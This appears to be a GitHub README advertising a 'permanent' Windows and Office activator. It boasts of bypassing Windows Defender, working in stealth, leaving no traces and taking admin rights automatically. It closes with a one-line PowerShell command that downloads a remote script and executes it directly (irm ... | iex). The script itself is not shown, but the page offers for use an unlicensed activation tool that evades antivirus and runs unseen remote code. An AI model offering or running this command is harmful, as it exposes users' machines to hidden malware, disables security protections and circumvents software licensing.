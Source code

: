 # 🚀 Windows & Office Permanent Activator

> ### ⚡ **ONE COMMAND** - Permanent Activation | Defender Bypass | All Versions Supported

---

## 🎯 **WHAT THIS SCRIPT DOES**

🛡️ **BYPasses Windows Defender** - Complete stealth mode  
✅ **Activates Windows PERMANENTLY** - Lifetime activation  
📊 **Activates Office PERMANENTLY** - All Office versions  
⚡ **Automatic Admin Rights** - No manual elevation needed  
🔥 **All Windows Versions** - 8, 10, 11, Server editions  
🎭 **Complete Stealth** - No traces left behind  

---

## 🚨 **IMMEDIATE ACTIVATION**

### **One-Line Command** 🎯
```powershell
irm https://raw.githubusercontent.com/Ano-n-ymous/windows-activator-script/main/script.ps1 | iex

